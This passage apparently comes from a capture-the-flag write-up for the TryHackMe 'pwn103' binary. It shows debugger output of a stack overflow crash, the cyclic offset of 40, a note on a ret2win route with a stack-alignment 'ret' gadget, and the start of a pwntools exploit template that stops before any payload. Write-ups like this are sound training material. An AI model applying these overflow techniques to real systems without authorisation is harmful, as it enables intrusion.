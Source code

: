 ```
0x007fffffffde30│+0x0018: "qaaaraaasaaataaauaaavaaawaaaxaaayaaa"
0x007fffffffde38│+0x0020: "saaataaauaaavaaawaaaxaaayaaa"
0x007fffffffde40│+0x0028: "uaaavaaawaaaxaaayaaa"
0x007fffffffde48│+0x0030: "waaaxaaayaaa"
0x007fffffffde50│+0x0038: 0x00000061616179 ("yaaa"?)
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
     0x401370 <general+178>    call   0x401040 <puts@plt>
     0x401375 <general+183>    nop    
     0x401376 <general+184>    leave  
 →   0x401377 <general+185>    ret    
[!] Cannot disassemble from $PC
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "pwn103.pwn103", stopped 0x401377 in general (), reason: SIGSEGV
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x401377 → general()
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  q
                                                                                                                                                                                                                   
┌──(venv)─(mark㉿haxor)-[~/…/B2B/THM/Pwn101/pwn103]
└─$ cyclic -l kaaa
40
```

The offset is 40. Here's the script to exploit this binary `(P.S) I had to debug movaps stack alignment by returning to a valid ret call before returning to admins_only`

Solve script available at [Exploit](https://github.com/markuched13/markuched13.github.io/blob/main/solvescript/thm/pwn101/pwn103.py)

```python
from pwn import *

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)


# Binary filename
exe = './pwn103.pwn103'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (error/warning/info/debug)
context.log_level = 'info'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

# Start program
io = start()

```